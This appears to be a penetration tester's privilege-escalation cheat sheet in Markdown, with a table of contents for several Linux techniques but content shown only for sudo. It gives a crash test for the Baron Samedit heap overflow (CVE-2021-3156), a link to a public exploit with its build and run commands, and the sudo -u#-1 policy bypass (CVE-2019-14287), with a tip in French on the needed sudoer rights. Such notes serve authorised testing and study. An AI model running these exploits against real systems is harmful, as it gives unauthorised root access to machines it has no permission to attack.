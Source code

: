 
- [[#SUDO]]
- [[#POLKIT]]
- [[#LXC / LXD]]
- [[#DOCKER]]
- [[#KUBERNETES K8S]]
- [[#LOGROTATE]]
- [[#TERRAFORM]]

---
# SUDO

- [[#Baron Samedit (CVE-2021-3156) (ver 1.8.21, 1.8.31 & 1.8.27)]]
- [[#Sudo Policy Bypass ([CVE-2019-14287](https //www.sudo.ws/security/advisories/minus_1_uid/))(sudo < 1.8.28)]]


```shell-session
sudo -V | head -n1
```

## Baron Samedit (CVE-2021-3156) (ver 1.8.21, 1.8.31 & 1.8.27)

Buffer Overflow

Check (segmentation fault -> vulnerable)

```
sudoedit -s '\' `perl -e 'print "A" x 65536'`
```


https://github.com/blasty/CVE-2021-3156

```shell-session
make
```

```shell
./sudo-hax-me-a-sandwich
```

## Sudo Policy Bypass ([CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/))(sudo < 1.8.28)

> [!TIP]
> Necessite droit sudoer sur une commande

```bash
sudo -l
```

```bash
sudo -u#-1 <programme>
```


---